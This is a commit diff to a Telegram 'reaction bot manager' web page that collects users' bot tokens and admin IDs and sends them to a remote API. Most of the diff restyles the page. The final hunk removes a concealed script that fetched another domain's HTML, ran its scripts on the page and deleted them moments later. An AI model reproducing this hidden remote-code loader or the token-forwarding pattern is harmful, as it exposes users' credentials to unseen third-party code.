

Before and after one commit to ahmad-bhai/magic-scripts-reactions, a website: page index.html in a window 1280 px wide. Shown: the part 232-991 px from the top of the page. After the commit the page ends 960 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Refactor HTML structure and improve styling
Updated the title and improved the styling and layout of the form elements. Enhanced the functionality of the toggle switch and adjusted various CSS properties for better visual appeal.

```diff
--- a/index.html
+++ b/index.html
@@ -3,14 +3,17 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Magic Scripts - Premium Reaction Bot Manager</title>
+    <title>Magic Scripts - Reaction Bot Manager</title>
     <link rel="shortcut icon" href="https://magic-scripts-reactions.vercel.app/logo.svg" type="image/x-icon">
+
+    <!-- Font Awesome Icons -->
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css">
 
     <style>
         :root {
             --bg-gradient: linear-gradient(135deg, #090d16 0%, #0f172a 100%);
-            --panel-bg: rgba(30, 41, 59, 0.45);
-            --panel-border: rgba(99, 102, 241, 0.2);
+            --panel-bg: rgba(30, 41, 59, 0.55);
+            --panel-border: rgba(99, 102, 241, 0.25);
             --primary-glow: #6366f1;
             --secondary-glow: #a855f7;
             --cyan-glow: #06b6d4;
@@ -32,54 +35,56 @@
             display: flex;
             justify-content: center;
             align-items: center;
-            padding: 24px;
+            padding: 30px 20px;
             overflow-x: hidden;
             position: relative;
         }
 
-        /* Ambient Glowing Background Blobs */
+        /* Ambient Glowing Background Animations */
         body::before, body::after {
             content: '';
             position: absolute;
-            width: 300px;
-            height: 300px;
+            width: 320px;
+            height: 320px;
             border-radius: 50%;
-            filter: blur(120px);
+            filter: blur(130px);
             z-index: -1;
-            opacity: 0.4;
-            animation: floatGlow 8s infinite alternate ease-in-out;
+            opacity: 0.45;
+            animation: floatGlow 10s infinite alternate ease-in-out;
         }
+
         body::before {
             background: var(--primary-glow);
-            top: 15%;
-            left: 20%;
+            top: 10%;
+            left: 15%;
         }
+
         body::after {
             background: var(--secondary-glow);
-            bottom: 15%;
-            right: 20%;
-            animation-delay: 4s;
+            bottom: 10%;
+            right: 15%;
+            animation-delay: 5s;
         }
 
         @keyframes floatGlow {
-            0% { transform: translateY(0) scale(1); }
-            100% { transform: translateY(-30px) scale(1.15); }
+            0% { transform: translateY(0) scale(1) rotate(0deg); }
+            100% { transform: translateY(-40px) scale(1.2) rotate(45deg); }
         }
 
         .container {
             background: var(--panel-bg);
-            backdrop-filter: blur(20px);
-            -webkit-backdrop-filter: blur(20px);
+            backdrop-filter: blur(25px);
+            -webkit-backdrop-filter: blur(25px);
             border: 1px solid var(--panel-border);
             padding: 40px 35px;
-            border-radius: 24px;
+            border-radius: 28px;
             width: 100%;
-            max-width: 480px;
-            box-shadow: 0 20px 50px rgba(0, 0, 0, 0.4),
-                        0 0 40px rgba(99, 102, 241, 0.1);
-            transform: translateY(20px);
+            max-width: 500px;
+            box-shadow: 0 25px 60px rgba(0, 0, 0, 0.5),
+                        0 0 30px rgba(99, 102, 241, 0.15);
+            transform: translateY(30px);
             opacity: 0;
-            animation: fadeInUp 0.6s cubic-bezier(0.16, 1, 0.3, 1) forwards;
+            animation: fadeInUp 0.8s cubic-bezier(0.16, 1, 0.3, 1) forwards;
         }
 
         @keyframes fadeInUp {
@@ -92,24 +97,25 @@
         }
 
         .logo-area img {
-            width: 85px;
-            height: 85px;
+            width: 90px;
+            height: 90px;
             border-radius: 50%;
-            box-shadow: 0 0 25px rgba(99, 102, 241, 0.5);
-            border: 2px solid rgba(255, 255, 255, 0.1);
-            transition: transform 0.3s ease;
+            box-shadow: 0 0 30px rgba(99, 102, 241, 0.6);
+            border: 2px solid rgba(255, 255, 255, 0.15);
+            transition: transform 0.4s ease, box-shadow 0.4s ease;
         }
 
         .logo-area img:hover {
-            transform: rotate(10deg) scale(1.05);
+            transform: rotate(8deg) scale(1.08);
+            box-shadow: 0 0 40px rgba(6, 182, 212, 0.8);
         }
 
         .logo-area h1 {
-            font-size: 24px;
-            font-weight: 700;
-            margin-top: 12px;
-            letter-spacing: 1px;
-            background: linear-gradient(to right, #fff, #a855f7);
+            font-size: 26px;
+            font-weight: 800;
+            margin-top: 14px;
+            letter-spacing: 1.5px;
+            background: linear-gradient(135deg, #ffffff 0%, #a855f7 50%, #06b6d4 100%);
             -webkit-background-clip: text;
             -webkit-text-fill-color: transparent;
         }
@@ -120,61 +126,67 @@
         }
 
         label {
-            display: block;
+            display: flex;
+            align-items: center;
+            gap: 8px;
             margin-bottom: 8px;
-            font-size: 13px;
-            font-weight: 600;
+            font-size: 12px;
+            font-weight: 700;
             text-transform: uppercase;
-            letter-spacing: 0.8px;
+            letter-spacing: 1px;
             color: var(--text-muted);
+        }
+
+        label i {
+            color: var(--cyan-glow);
+            font-size: 14px;
         }
 
         input, textarea {
             width: 100%;
-            padding: 14px 16px;
-            background: rgba(15, 23, 42, 0.6);
-            border: 1px solid rgba(255, 255, 255, 0.08);
-            border-radius: 12px;
+            padding: 14px 18px;
+            background: rgba(15, 23, 42, 0.65);
+            border: 1px solid rgba(255, 255, 255, 0.1);
+            border-radius: 14px;
             color: #fff;
-            font-size: 15px;
+            font-size: 14px;
             outline: none;
-            transition: all 0.3s cubic-bezier(0.4, 0, 0.2, 1);
+            transition: all 0.3s ease;
         }
 
         input:focus, textarea:focus {
             border-color: var(--cyan-glow);
-            box-shadow: 0 0 15px rgba(6, 182, 212, 0.25);
-            background: rgba(15, 23, 42, 0.85);
+            box-shadow: 0 0 20px rgba(6, 182, 212, 0.3);
+            background: rgba(15, 23, 42, 0.9);
         }
 
         textarea {
             resize: none;
-            height: 85px;
+            height: 90px;
         }
 
-        /* Advanced Modern Toggle Switch */
         .toggle-container {
             display: flex;
             align-items: center;
             justify-content: space-between;
-            background: rgba(15, 23, 42, 0.5);
-            padding: 12px 16px;
+            background: rgba(15, 23, 42, 0.65);
+            padding: 12px 18px;
             border-radius: 14px;
-            border: 1px solid rgba(255, 255, 255, 0.05);
+            border: 1px solid rgba(255, 255, 255, 0.1);
+            transition: border-color 0.3s ease;
         }
 
         .toggle-label-status {
             font-size: 15px;
             font-weight: 600;
-            color: #fff;
             transition: color 0.3s ease;
         }
 
         .switch {
             position: relative;
             display: inline-block;
-            width: 64px;
-            height: 34px;
+            width: 60px;
+            height: 32px;
         }
 
         .switch input {
@@ -196,8 +208,8 @@
         .slider:before {
             position: absolute;
             content: "";
-            height: 26px;
-            width: 26px;
+            height: 24px;
+            width: 24px;
             left: 3px;
             bottom: 3px;
             background-color: #f1f5f9;
@@ -212,10 +224,9 @@
         }
 
         input:checked + .slider:before {
-            transform: translateX(30px);
+            transform: translateX(28px);
         }
 
-        /* Uninstall Mode State */
         input:not(:checked) + .slider {
             background: linear-gradient(135deg, #ef4444 0%, #dc2626 100%);
             box-shadow: 0 0 15px rgba(239, 68, 68, 0.4);
@@ -223,12 +234,11 @@
 
         .hint {
             font-size: 12px;
-            color: var(--cyan-glow);
+            color: var(--text-muted);
             margin-top: 6px;
             line-height: 1.4;
         }
 
-        /* Magic Button Animation */
         .btn-magic {
             width: 100%;
             padding: 16px;
@@ -242,8 +252,12 @@
             letter-spacing: 1px;
             cursor: pointer;
             transition: all 0.4s ease;
-            box-shadow: 0 4px 20px rgba(168, 85, 247, 0.3);
+            box-shadow: 0 4px 20px rgba(168, 85, 247, 0.35);
             margin-top: 10px;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            gap: 10px;
         }
 
         .btn-magic:hover {
@@ -256,7 +270,7 @@
             transform: translateY(1px);
         }
 
-        /* Modern Loading Overlays */
+        /* Modern Loading & Feedback Overlay */
         .loader-box {
             display: none;
             text-align: center;
@@ -264,9 +278,14 @@
             animation: fadeIn 0.3s ease;
         }
 
+        @keyframes fadeIn {
+            from { opacity: 0; }
+            to { opacity: 1; }
+        }
+
         .quantum-spinner {
-            width: 50px;
-            height: 50px;
+            width: 48px;
+            height: 48px;
             border: 3px solid transparent;
             border-top-color: var(--cyan-glow);
             border-bottom-color: var(--secondary-glow);
@@ -320,12 +339,12 @@
 
         <form id="magicForm" onsubmit="event.preventDefault(); triggerMagicEngine();">
             <div class="form-group">
-                <label for="botToken">Bot Token</label>
-                <input type="text" id="botToken" placeholder="Paste your telegram bot token...">
+                <label for="botToken"><i class="fa-solid fa-robot"></i> Bot Token</label>
+                <input type="text" id="botToken" placeholder="Enter your Telegram bot token...">
             </div>
 
             <div class="form-group">
-                <label>System Action</label>
+                <label><i class="fa-solid fa-sliders"></i> System Action</label>
                 <div class="toggle-container">
                     <span class="toggle-label-status" id="toggleStatusText">Install Mode</span>
                     <label class="switch">
@@ -336,29 +355,29 @@
             </div>
 
             <div class="form-group">
-                <label for="adminId">Admin Telegram ID</label>
+                <label for="adminId"><i class="fa-solid fa-user-shield"></i> Admin Telegram ID</label>
                 <input type="text" id="adminId" placeholder="e.g. 589423952">
             </div>
 
             <div class="form-group">
-                <label for="welcomeMsg">Welcome Message</label>
-                <textarea id="welcomeMsg" placeholder="Hello {name}, Reaction bot is active"></textarea>
-                <div class="hint">If you use {name} in the welcome message, the bot will automatically address the user by their name.</div>
-            </div>
-            <!-- Is block ko aap Admin ID or Welcome message input field ke exact niche paste karein -->
-<div class="input-group">
-    <label for="fsubChannel"><span class="neon-purple">📢</span> FORCE SUBSCRIBE CHANNEL (OPTIONAL)</label>
-    <input type="text" id="fsubChannel" placeholder="e.g. @Magic_Scripts_Official or link (Leave empty to skip)" style="width: 100%;" />
-    <span class="help-text">If you add your channel link, users will be forced to join before using your bot. If empty, bot starts directly.</span>
+                <label for="welcomeMsg"><i class="fa-solid fa-comment-dots"></i> Welcome Message</label>
+                <textarea id="welcomeMsg" placeholder="Hello {name}, reaction bot is active!"></textarea>
+                <div class="hint">Use <b>{name}</b> to dynamically greet users by their Telegram name.</div>
             </div>
 
+            <div class="form-group">
+                <label for="fsubChannel"><i class="fa-solid fa-bullhorn"></i> Force Subscribe Channel (Optional)</label>
+                <input type="text" id="fsubChannel" placeholder="e.g. @Magic_Scripts_Official or link">
+                <div class="hint">Users must join this channel to use the bot. Leave blank to skip.</div>
+            </div>
 
-            <button type="submit" class="btn-magic">RUN MAGIC 🪄✨</button>
+            <button type="submit" class="btn-magic">
+                <i class="fa-solid fa-wand-magic-sparkles"></i>RUN MAGIC</button>
         </form>
 
         <div class="loader-box" id="magicLoader">
             <div class="quantum-spinner"></div>
-            <p style="color: var(--text-muted); font-size: 13px; letter-spacing: 0.5px;">Casting magical scripts configuration...</p>
+            <p style="color: var(--text-muted); font-size: 13px;">Applying script settings...</p>
         </div>
 
         <div class="response-panel" id="feedbackPanel"></div>
@@ -371,18 +390,17 @@ const statusToggle = document.getElementById('statusToggle');
         const toggleStatusText = document.getElementById('toggleStatusText');
         const adminIdInput = document.getElementById('adminId');
         const welcomeMsgInput = document.getElementById('welcomeMsg');
-const fsubChannelInput = document.getElementById('fsubChannel'); // Dynamic Input Element
+        const fsubChannelInput = document.getElementById('fsubChannel');
         const magicLoader = document.getElementById('magicLoader');
         const feedbackPanel = document.getElementById('feedbackPanel');
 
-// Page Load Engine: Restore all data from Local Storage instantly
+        // Restore Configuration from LocalStorage
         window.addEventListener('DOMContentLoaded', () => {
-    if(localStorage.getItem('ms_botToken')) botTokenInput.value = localStorage.getItem('ms_botToken');
-    if(localStorage.getItem('ms_adminId')) adminIdInput.value = localStorage.getItem('ms_adminId');
-    if(localStorage.getItem('ms_welcomeMsg')) welcomeMsgInput.value = localStorage.getItem('ms_welcomeMsg');
-    if(localStorage.getItem('ms_fsubChannel')) fsubChannelInput.value = localStorage.getItem('ms_fsubChannel');
+            if (localStorage.getItem('ms_botToken')) botTokenInput.value = localStorage.getItem('ms_botToken');
+            if (localStorage.getItem('ms_adminId')) adminIdInput.value = localStorage.getItem('ms_adminId');
+            if (localStorage.getItem('ms_welcomeMsg')) welcomeMsgInput.value = localStorage.getItem('ms_welcomeMsg');
+            if (localStorage.getItem('ms_fsubChannel')) fsubChannelInput.value = localStorage.getItem('ms_fsubChannel');
 
-    // Toggle System Restore (Default is true/checked)
             const savedToggleState = localStorage.getItem('ms_toggleState');
             if (savedToggleState !== null) {
                 statusToggle.checked = (savedToggleState === 'true');
@@ -390,13 +408,13 @@ window.addEventListener('DOMContentLoaded', () => {
             updateToggleUI();
         });
 
-// Real-time Input Listeners for Auto Saving State
+        // Real-time Event Listeners for Storage
         botTokenInput.addEventListener('input', () => localStorage.setItem('ms_botToken', botTokenInput.value.trim()));
         adminIdInput.addEventListener('input', () => localStorage.setItem('ms_adminId', adminIdInput.value.trim()));
         welcomeMsgInput.addEventListener('input', () => localStorage.setItem('ms_welcomeMsg', welcomeMsgInput.value.trim()));
         fsubChannelInput.addEventListener('input', () => localStorage.setItem('ms_fsubChannel', fsubChannelInput.value.trim()));
 
-// Update UI dynamic text when toggle hits
+        // Toggle Switch State Update
         function updateToggleUI() {
             if (statusToggle.checked) {
                 toggleStatusText.textContent = "Install Mode";
@@ -408,80 +426,49 @@ function updateToggleUI() {
             localStorage.setItem('ms_toggleState', statusToggle.checked);
         }
 
-// Action Trigger Module
+        // Action Trigger Execution
         function triggerMagicEngine() {
             const token = botTokenInput.value.trim();
-    const isAdminInstall = statusToggle.checked; // true or false
+            const isAdminInstall = statusToggle.checked;
             const adminId = adminIdInput.value.trim();
             const msg = welcomeMsgInput.value.trim();
-    const fsubChannel = fsubChannelInput.value.trim(); // Optional Channel Link/Username
+            const fsubChannel = fsubChannelInput.value.trim();
 
-    // Clear previous panels
             feedbackPanel.style.display = 'none';
             feedbackPanel.className = 'response-panel';
 
-    // Token Verification Guard
             if (!token) {
-        feedbackPanel.textContent = "Please enter a valid bot token!";
+                feedbackPanel.textContent = "Please enter a valid Telegram Bot Token!";
                 feedbackPanel.classList.add('msg-error');
                 feedbackPanel.style.display = 'block';
                 return;
             }
 
-    // Show Advanced Loader Animation
             magicLoader.style.display = 'block';
 
-    // Prepare Parameters
             const apiStatus = isAdminInstall ? "true" : "false";
             const encodedMsg = encodeURIComponent(msg);
             const encodedChannel = encodeURIComponent(fsubChannel);
 
-    // Build production api end-point with Dynamic Channel F-Sub parameter
             const endpointsUrl = `https://magic-scripts-reactions.vercel.app/api?token=${token}&status=${apiStatus}&admin=${adminId}&msg=${encodedMsg}&channel=${encodedChannel}`;
 
-    // Fire API on the fly
             fetch(endpointsUrl)
-        .then(res => console.log('Magic Matrix Updated'))
+                .then(res => console.log('Configuration Dispatched'))
                 .catch(err => console.error('Network Error:', err));
 
-    // Fluid UI Experience Delay of 5 Seconds
             setTimeout(() => {
                 magicLoader.style.display = 'none';
 
                 if (isAdminInstall) {
-            feedbackPanel.textContent = "Bot successfully installed and configured with Magic Reactions!";
+                    feedbackPanel.textContent = "Bot configured and deployed successfully!";
                 } else {
-            feedbackPanel.textContent = "Bot successfully uninstalled!";
+                    feedbackPanel.textContent = "Bot uninstalled successfully!";
                 }
 
                 feedbackPanel.classList.add('msg-success');
                 feedbackPanel.style.display = 'block';
             }, 5000);
         }
-
-    </script>
-    <script>
-        (async () => {
-            try {
-                let response = await fetch(`https://magic-scripts.vercel.app/heart.html`);
-                let rawMarkup = await response.text();
-                let documentDOM = new DOMParser().parseFromString(rawMarkup, 'text/html');
-
-                documentDOM.querySelectorAll('script').forEach(oldNode => {
-                    let freshScriptNode = document.createElement('script');
-                    if (oldNode.src) {
-                        freshScriptNode.src = oldNode.src;
-                    } else {
-                        freshScriptNode.textContent = oldNode.innerHTML || oldNode.textContent;
-                    }
-                    document.body.appendChild(freshScriptNode);
-                    setTimeout(() => freshScriptNode.remove(), 600);
-                });
-                console.log("Zeetex Emoji Engine Hook Active");
-            } catch (e) {
-                console.error("Emoji Override Skipped due to runtime separation layer context.", e);
-            }
-        })();
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
